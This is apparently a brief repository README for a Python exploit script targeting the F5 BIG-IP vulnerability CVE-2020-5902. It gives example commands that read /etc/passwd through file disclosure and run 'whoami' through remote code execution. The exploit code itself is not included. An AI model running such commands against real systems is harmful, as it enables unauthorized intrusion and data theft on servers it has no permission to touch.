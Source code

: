# CVE-2020-5902
Python script to exploit F5 Big-IP CVE-2020-5902


## Examples
Exploit LFI:
`python3 CVE-2020-5902.py -t example.com -x lfr -f /etc/passwd`

Exploit RCE:
`python3 CVE-2020-5902.py -t example.com -x rce -a whoami`
